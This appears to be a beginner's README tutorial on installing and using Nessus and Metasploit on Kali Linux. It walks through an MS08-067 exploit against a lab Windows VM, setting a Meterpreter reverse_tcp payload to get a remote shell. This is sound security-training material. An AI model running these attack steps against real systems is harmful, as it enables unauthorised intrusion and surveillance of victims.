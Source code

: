 # Kali-Tools-Write-Ups

## Nessus

This tool is very useful in bringing out all the vulnerabilities it knows on a target machine or target network.

### Installation

You can download the home version from `. Keep in mind that this requires a registration as you will get a registration code in your email.
Once you download the .deb file, run the below command to install the package:

        dpkg –i Nessus-6.5.6-debian6_amd64.deb
        
Next, we start the service using,

        #/etc/init.d/nessusd start
        
### Usage

Nessus uses a web client and hence is accessed using the browser. The default port used by Nessus is 8834 and can be reached using the URL `https://localhost:8834`. Follow the manual instructions in the web-page including the screen that asks for your registration code. You will finally reach the page that asks you to create a new Scan. 

A new Scan is the target scan configuration. A scan configuration can be saved so that one can rerun the same scan multiple times. For a basic scan, select `Basic Network Scan` as the scan template. This template does a scan of many network vulnerabilities Nessus is aware of. Give the scan a name and description. The Targets field is the network or the host you wish to target the scan towards. This could be an IP address, a domain or even a network. 

On saving the scan, you reach the screen with all the scans you have created. If you are ready to execute the scan, hit the Launch icon on the scan record in the table. This will initiate the scan. This could take a while depending on how many hosts you are targeting.

Once it is complete, you can click on the scan to get the results of the scan. You will get to see the split up the vulnerabilities found ranging from Critical, High to just Informational findings. To see the vulnerabilities, click the host. The best part of Nessus lies here. It lists what it found and also a shit load of information about the vulnerability!! It also tries to list what you could use to exploit this vulnerability (shhh!)

## Metasploit

Metasploit is the mother load of exploits. This suite is a compilation of many exploit modules which can be easily used to attack a target machine. 

### Installation

Metasploit comes installed on Kali Linux. It can be launched by either using the Metasploit icon in the Applications menu or by using the command `msfconsole` in a terminal. If you are using any other Linux OS, there is plenty of documentation out there. [This](http://docs.kali.org/category/installation) is the official documentation.

### Usage

Now we come to the fun part! Since there are a multitude of modules, Metasploit offers a search feature which helps use find modules for the exploit we are looking for. For example, if we are searching for the exploit on Microsoft's defect MS08_067, you would do a `search MS08_067' and it will list the modules it has on that defect. (Please note: your Windows VM should not have the patch installed to fix this vulnerability)

Now once you have found your exploit module, we need to load that module on Metasploit. We do this by

		use exploit/windows/smb/ms08_067_netapi

Once the module has loaded, Metasploit requires us to give it the parameters and configuration dependencies for the module. To see what all it uses, hit

		show options

One will be able to see parameters like RHOST = Remote target Host, LHOST = Local Host, SRVHOST = Server IP, etc. This will vary depending on the module that you have loaded of course.
Suppose we wish to load the RHOST remote target IP in this case, all we would need to do is,

		set RHOST 192.168.1.9

This sets 192.168.1.9 as the target host.

Next, we come to the payloads. Payloads define the basic implementation of the module, this basically determines what kind of attack you want to conduct the attack and what you want to get after exploiting the vulnerability. For the different types of payloads, check [this](https://www.offensive-security.com/metasploit-unleashed/payload-types/) out.

For this we use Reverse TCP payload which is a method which sets us the server (uses a non standard port) and the client will be the target machine using a standard port. This makes sure that we don't have to depend on ports that potentially could be blocked by some firewalls.

		set payload windows/meterpreter/reverse_tcp

We obtain a Meterpreter session in this case which is a payload from Metasploit which by itself is very powerful. This uses DLL injections to execute client-side scripts which have a server written in C and the client is written in Ruby. The functions range from trying to elevate privileges in the machine to getting access to the key-presses on the machine and recording feed from the remote machine’s microphone or web camera. 

The final command and the magic begins:

		exploit

After the exploit is complete, we get a Meterpreter shell which helps us execute any command on the remote Windows machine. Congratulations!! You have just performed your first exploit.